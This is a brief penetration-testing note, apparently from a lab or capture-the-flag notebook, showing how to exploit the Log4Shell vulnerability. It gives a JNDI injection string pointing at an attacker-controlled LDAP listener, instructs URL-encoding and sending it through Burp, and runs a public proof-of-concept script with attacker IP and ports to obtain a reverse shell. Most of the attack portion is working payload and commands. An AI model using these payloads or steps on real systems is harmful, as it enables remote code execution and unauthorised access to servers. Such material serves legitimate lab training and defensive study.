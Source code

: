 # 🦪 Log4Shell

Check this [article](https://www.tomitribe.com/blog/cve-2021-44228-log4shell-vulnerability/) for more info To check for Log4Shell exploit :

```
${jndi:ldap://10.8.0.178:4444/a}
```

Then url encode it and send through burp after intercepting:&#x20;

<figure><img src="../../.gitbook/assets/Log4Shell.png" alt=""><figcaption></figcaption></figure>

Listening on nc:

<figure><img src="../../.gitbook/assets/Log4Shell-1.png" alt=""><figcaption></figcaption></figure>

We get some weird characters back.

Then we can use a [log4j-shell](https://github.com/kozmer/log4j-shell-poc/tree/main) Download [java](https://www.oracle.com/in/java/technologies/javase/javase8-archive-downloads.html) and execute

```
python3 poc.py --userip 10.8.1.208 --webport 8000 --lport 9001
```

Then send the payload:&#x20;

<figure><img src="../../.gitbook/assets/Log4Shell-2.png" alt=""><figcaption></figcaption></figure>

Sending the url encoded payload in burpsuite.&#x20;

Now we get a shell back:

<figure><img src="../../.gitbook/assets/Log4Shell-3.png" alt=""><figcaption></figcaption></figure>
